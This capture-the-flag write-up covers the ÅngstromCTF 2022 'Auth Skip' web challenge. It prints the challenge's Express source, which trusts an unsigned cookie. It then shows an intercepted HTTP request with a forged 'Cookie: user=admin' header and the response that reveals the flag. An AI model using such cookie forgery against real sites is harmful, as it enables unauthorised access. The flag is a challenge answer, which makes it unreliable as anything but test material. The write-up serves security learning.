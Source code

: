 +++
title = "ÅngstromCTF2022 - Auth Skip "
date = "2022-05-05"
weight = 0

[taxonomies]
tags=["web", "cookie", "auth", "ctf"]
ctf=["ÅngstromCTF"]
+++

# Auth Skip

Goal is to do the legendary "Auth Skip", like in true speedrunner fashion, finding an exploit, getting those gold splits, conquering the leaderboard!

Given the source code, i began to look at the logic of the cookies used for authentication.

```javascript
const express = require("express");
const path = require("path");
const cookieParser = require("cookie-parser");

const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

app.post("/login", (req, res) => {
    if (
        req.body.username !== "admin" ||
        req.body.password !== Math.random().toString()
    ) {
        res.status(401).type("text/plain").send("incorrect login");
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
    }
});

app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

The vuln lies in the following lines:

```javascript
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
```


We can set our cookie to something like, `user=admin`  and we can ommit the password, as it doesn't require us to provide one.

Thus we navigate to `/` providing the username and cookie we should be able to grab the flag:

```javascript
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
```

--- 

# Exploit: Legendary Auth Skip
In burp I intercepted:

```
GET / HTTP/2
Host: auth-skip.web.actf.co
Sec-Ch-Ua: [...]
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: [...]
Accept: [...]
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Simply add the cookie to the request

```
Cookie: user=admin
```

et voilà !

```
HTTP/2 200 OK
Date: Wed, 04 May 2022 14:44:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Etag: W/"36-QSBEGde8h39PljsFBY/epRs/oqo"
Strict-Transport-Security: max-age=15724800; includeSubDomains

actf{passwordless_authentication_is_the_new_hip_thing}
```

*aut viam inveniam aut faciam*

